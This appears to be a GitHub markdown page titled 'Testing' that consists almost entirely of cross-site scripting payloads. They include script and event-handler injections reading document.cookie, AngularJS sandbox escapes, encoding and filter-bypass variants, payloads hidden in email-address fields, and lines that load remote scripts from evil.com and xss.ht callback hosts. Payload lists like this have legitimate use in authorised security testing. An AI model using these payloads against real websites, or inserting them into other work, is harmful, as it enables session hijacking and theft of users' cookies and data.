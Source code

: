 # Testing

<style>
{
   backgroundcolor:red;
}

"/>&lt;script>alert(document.cookie)&lt;/script>"/>

{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\u002ex)alert(window\u002ex=document.cookie)')+eval(y)+\"'");}}}}

<script>alert(document.cookie)%0d%0a-->%09</script

' accesskey=X onclick=alert(document.cookie) '

' onmouseover=alert(document.cookie) '

<img src=x onmouseover=confirm()>

‘%uff1cscript%uff1ealert(‘XSS’);%uff1c/script%uff1e’
#<img src=x onerror=alert(0)>

&lt;script&gt;alert(&#x27;xss&#x27;);&lt;/script&gt;

{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}

'"; alert("XSS attack!"); //';

<img src=x onerror=alert(document.cookie)>
'-alert(document.cookie)-';"-alert(document.cookie)-"//"><svg/onload=alert(document.cookie)>
<img src=totallyfake onerror=alert(document.cookie);//
<img src=x onerror=import(‘//evil.com/‘);//
'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`document.cookie`>%22%3E%3CSvg/onload=confirm`document.cookie`//<Script/src=//ChiragXSS.xSs.ht></scripT>


“><svg/onload=confirm(1)>”@gmail.com
<svg onload=location='javascript:alert(document.cookie)'>
"<script>alert(document.cookie)</script>"@gmail.com
"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
'"></title></textarea></script></style></noscript><script src=abc.xss.ht></script>

test+(<script>alert(document.cookie)</script>)@gmail.com
"\/><img%20s+src+c=x%20on+onerror+%20="alert(document.cookie)"\>
"><svg+svg+svg\/\/On+OnLoAd=confirm(document.cookie)>



